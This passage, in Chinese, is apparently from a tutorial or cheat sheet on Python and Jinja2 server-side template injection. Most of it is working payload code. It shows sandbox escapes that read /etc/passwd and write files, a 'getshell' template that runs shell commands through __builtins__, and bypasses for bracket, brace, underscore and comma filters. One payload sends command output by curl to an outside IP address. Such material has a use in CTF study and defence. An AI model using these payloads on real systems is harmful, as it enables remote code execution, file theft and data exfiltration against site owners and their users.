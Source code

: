 利用python2的file类读写文件
在python3中file类被删除了，所以以下payload只有python2中可行。
用dir来看看内置的方法:

```python
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()
#写文件
"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')
```

#python2的str类型不直接从属于属于基类，所以要两次 .__bases__
通用getshell
原理就是找到含有__builtins__的类，然后利用。

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
#读写文件
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

#### 3.2.3 绕过
**绕过中括号**
```python
#通过__bases__.__getitem__(0)（__subclasses__().__getitem__(128)）绕过__bases__[0]（__subclasses__()[128]）
#通过__subclasses__().pop(128)绕过__bases__[0]（__subclasses__()[128]）
"".__class__.__bases__.__getitem__(0).__subclasses__().pop(128).__init__.__globals__.popen('whoami').read()
```

**过滤{{或者}}**

可以使用{%绕过
{%%}中间可以执行if语句，利用这一点可以进行类似盲注的操作或者外带代码执行结果
```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://39.105.116.195:8080/?i=`whoami`').read()=='p' %}1{% endif %}
```

**过滤_**
用编码绕过
```python
比如：__class__ => \x5f\x5fclass\x5f\x5f

_是\x5f，.是\x2E
过滤了_可以用dir(0)[0][0]或者request['args']或者 request['values']绕过
但是如果还过滤了 args所以我们用request[‘values’]和attr结合绕过
例如''.__class__写成 ''|attr(request['values']['x1']),然后post传入x1=__class__

```


**绕过逗号+中括号**
```python
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(250).__init__.__globals__.__builtins__.chr %}{{().__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.os.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read()}}
```
